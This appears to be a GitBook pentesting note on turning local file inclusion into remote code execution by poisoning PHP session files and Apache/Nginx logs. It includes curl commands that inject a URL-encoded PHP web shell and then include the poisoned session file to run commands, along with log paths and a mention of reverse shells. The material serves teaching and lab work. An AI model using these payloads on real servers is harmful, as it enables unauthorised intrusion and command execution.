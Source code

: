 ![](../../.gitbook/assets/fi_rce_phpsessid_1.png)

{% code overflow="wrap" %}
```bash
# Poisoning the log with a URL-encoded PHP webshell
curl http://<SERVER_IP>:<PORT>/index.php?language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E
# Including the file for RCE
curl http://<ip:port>/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd&cmd=id
```
{% endcode %}

To execute another command, **the session file has to be poisoned with the web shell again**, as it gets overwritten with `/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd` after our last inclusion. Ideally, we would use the poisoned web shell to write a permanent web shell to the web directory, or send a reverse shell for easier interaction.

### Server log poisoning

{% hint style="danger" %}
Logs tend to be huge, and **loading them in through an LFI** may take a while to read, or even **crash the server**.
{% endhint %}

Both `Apache` and `Nginx` maintain various log files, such as `access.log` and `error.log`. The `access.log` file contains various information about all requests made to the server, including each request's `User-Agent` header. As we can control the `User-Agent` header in our requests, we can use it to poison the server logs as we did above.

Once poisoned, we need to include the logs through the LFI vulnerability, and for that **we need to have read-access over the logs**.

<table><thead><tr><th width="118" align="right">Server</th><th width="425">Logs (Linux, Windows)</th><th>Readable by</th></tr></thead><tbody><tr><td align="right">Apache</td><td><code>/var/log/apache2</code>, <code>C:\xampp\apache\logs</code></td><td>High privileged users</td></tr><tr><td align="right">Nginx</td><td><code>/var/log/nginx</code>, <code>C:\nginx\log</code></td><td>Low privileged users</td></tr></tbody></table>
